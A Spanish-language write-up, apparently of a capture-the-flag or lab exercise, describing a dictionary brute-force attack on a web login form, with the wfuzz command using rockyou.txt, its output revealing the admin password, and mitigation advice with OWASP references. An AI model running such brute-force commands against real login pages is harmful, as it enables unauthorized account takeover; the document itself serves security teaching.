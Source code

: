 # Brute Force Attack
### A07:2021 – Identification and Authentication Failures 

Un **ataque de fuerza bruta** es un ataque que implica el craqueo de credenciales o contraseñas por uso de prueba y error.

Estos ataques pueden ser completamente manuales o automatizados mediante el uso de diccionarios de credenciales o usuarios (**dictionary attack**).

## Ataque

- **Localización**: http://<IP>/index.php?page=singin

Tenemos un formulario para ingresar unas credenciales y loguearse en la página. Hacemos las pruebas necesarias para ver si hay algún error de sanitización de input de usuario, como una [inyección SQL](./sql_injection_users.md). 

Tras ver que el iput está sanitizado, probamos con un ataque de fuerza bruta mediante un diccionario, el cual podemos automatizar con **wfuzz** ya que las credenciales se pasan por query:

```bash
wfuzz --hh 1988 -w rockyou.txt "http://<IP>/index.php?page=signin&username=admin&password=FUZZ&Login=Login#"
```
Y el resultado es:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.11.200.124/index.php?page=signin&username=admin&password=FUZZ&Login=Login
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                         
=====================================================================

000000073:   200        54 L     139 W      2086 Ch     "shadow" 
```

Probamos la combinación de credenciales **admin** y **shadow**, y finalmente
obtenemos la flag.

## Mitigación

- Uso de herramientas de limitación de peticiones por segundo para mitigar ataques de fuerza bruta.
- **Securización de credenciales** 
    - Monitorización de credenciales en filtraciones de datos
    - Implementación de protocolos de complejidad de contraseñas
    - Implementar mecanismos de lockout.

## Referencias
- [A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [A09:2021 – Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)
- [OWASP: Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)